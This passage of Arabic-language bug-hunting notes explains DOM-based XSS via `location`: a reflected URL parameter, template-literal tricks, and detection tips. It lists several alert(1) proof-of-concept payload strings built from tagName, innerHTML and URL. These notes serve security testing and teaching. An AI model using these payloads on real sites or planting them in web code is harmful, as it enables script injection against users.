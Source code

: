 #### 🔎 **الفكرة:**

- استخدام معلمة في URL يتم عكسها بدون تنظيف.
    
- نجعل السكربت يقرأ موقعه الذاتي (`location`) لتكوين XSS داخلي ذاتي التنفيذ.
    

#### 🔧 **مثال عملي:**

- URL:
    
    ```
    https://site.com/page?[P]=<svg/onload=alert(1)>
    ```
    
- والصفحة فيها كود:
    
    ```html
    <div onmouseover="location+=this.textContent">hoverme!</div>
    ```
    
- يتم عكس `<svg/onload=alert(1)>` داخل الصفحة.
    

#### 📌 **تفصيل DOM:**

- عند تمرير `[P]=<svg/onload=alert(1)>` تصبح `textContent = <svg/onload=alert(1)>`
    
- ثم: `location += textContent → javascript:<svg/onload=alert(1)>` ⇒ يتم التنفيذ عند التفاعل.
    

#### 🎯 **نقطة الكشف:**

- افحص المعلمات المنعكسة في الصفحة.
    
- جرّب إدخال SVG مرفقة بـ onload.
    
- راقب رد فعل DOM عند hover أو أي event handler.
    

#### **الخلاصة:**
ناقلات الموقع مع URL ذاتي فعالة لأنها تستخدم معلمات URL لتكوين XSS.

---

##  الموقع مع القالب الحرفي (Location with Template Literal)
{   #ideas_for_url / #XSS_DOM  }
#### **الشرح البسيط:**
تستخدم قوالب JavaScript الحرفية (`${alert(1)}`) لتكوين `javascript:alert(1)` عبر `location`.

#### **الأكواد:**
```
${alert(1)}<javascript:`//onmouseover=location=tagName+URL>hoverme!
${alert(1)}<j/onmouseover=location=innerHTML+URL>javascript:`//hoverme!
${alert(1)}<javas/onmouseover=location=tagName+innerHTML+URL>cript:`//hoverme!
${alert(1)}`<javascript:`//onmouseover=location=tagName+previousSibling.nodeValue>hoverme!
${alert(1)}`<javas/onmouseover=location=tagName+innerHTML+previousSibling.nodeValue>cript:`hoverme!
```
